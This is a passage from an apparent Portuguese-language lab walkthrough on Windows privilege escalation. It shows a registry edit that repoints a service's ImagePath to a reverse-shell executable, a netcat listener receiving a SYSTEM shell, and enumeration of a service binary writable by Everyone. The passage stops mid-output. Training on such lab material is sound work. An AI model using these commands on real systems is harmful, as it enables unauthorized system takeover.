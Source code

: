 ```cmd
PS C:\Users\user\Desktop> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
The operation completed successfully.
```

Agora vamos reiniciar o serviço `regsvc` com o comando `net start regsvc`  e verificar se conseguimos acesso a maquina alvo.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         20:12:07
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.32.183] 49790
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

e para concluir esse tópico bastar clicar no botão `Completed`.

---

## **<a id="6"> • Service Exploits - Insecure Service Executables</a>**

Vamos dar uma olhada no serviço `filepermsvc`

```cmd
C:\Windows\system32>sc qc filepermsvc
sc qc filepermsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Podemos ver que o serviço `filepermsvc` está configurado para ser executado como `LocalSystem`, então vamos verificar as permissões do nosso usuário utilizando o `accesschk.exe`.

```cmd
C:\Windows\system32>C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
```

